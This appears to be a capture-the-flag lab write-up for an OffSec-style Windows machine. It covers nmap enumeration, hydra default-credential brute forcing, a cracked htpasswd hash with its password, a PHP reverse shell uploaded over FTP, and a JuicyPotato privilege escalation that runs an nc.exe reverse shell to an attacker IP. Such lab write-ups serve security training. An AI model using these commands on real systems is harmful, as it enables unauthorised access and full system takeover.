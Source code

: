 #Pwned! 
```IP
192.168.224.46
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.224.46 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE            REASON          VERSION
21/tcp   open  ftp                syn-ack ttl 125 zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680     
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
| ----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
| ----------   1 root     root           17 Aug 13  2011 StopService.bat
| ----------   1 root     root           18 Aug 13  2011 StartService.bat
| ----------   1 root     root         8736 Nov 09  2011 Settings.ini
| dr-xr-xr-x   1 root     root          512 Oct 24 14:39 log
| ----------   1 root     root         2275 Aug 08  2011 LICENSE.htm
| ----------   1 root     root           23 Feb 10  2011 InstallService.bat
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
|_dr-xr-xr-x   1 root     root          512 Aug 03 03:34 accounts
242/tcp  open  http               syn-ack ttl 125 Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-auth:                                  
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
|_http-title: 401 Authorization Required
3145/tcp open  zftp-admin         syn-ack ttl 125 zFTPServer admin
3389/tcp open  ssl/ms-wbt-server? syn-ack ttl 125
```

## Nmap UDP


# Enumeration
## FTP 21
zFTPServer v6.0
```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -s 21 ftp://192.168.224.46
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241024103412.png?raw=true)
Found a hash in .htpasswd as admin:admin
```
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0
```
```
offsec:elite
```

we create reverse shell to upload since we have direct access to the apache server root directory
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241024112748.png?raw=true)
we upload it with ftp
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241024112843.png?raw=true)

we then navigate to http://target:242/run.php and listen on 4444 to get revshell
## FTP 3145
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241024103427.png?raw=true)

## HTTP 242
Bruteforce attempt 1
```
hydra -I -V -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -t 1 "http-get://192.168.224.46:242/:A=BASIC:F=401"
```

offsec:elite credentials work
trying to fuzz with them, but nothing came up
```
ffuf -request get.req -request-proto http -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -ac
```

## RDP
offsec:elite credentials not working
# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241024113324.png?raw=true)

```
.\jp.exe -l 1337 -t * -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\wamp\www\nc.exe -e cmd.exe 192.168.45.235 443"
```
now we are root
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241024120433.png?raw=true)
## Automated

### Peass
### Mimikatz


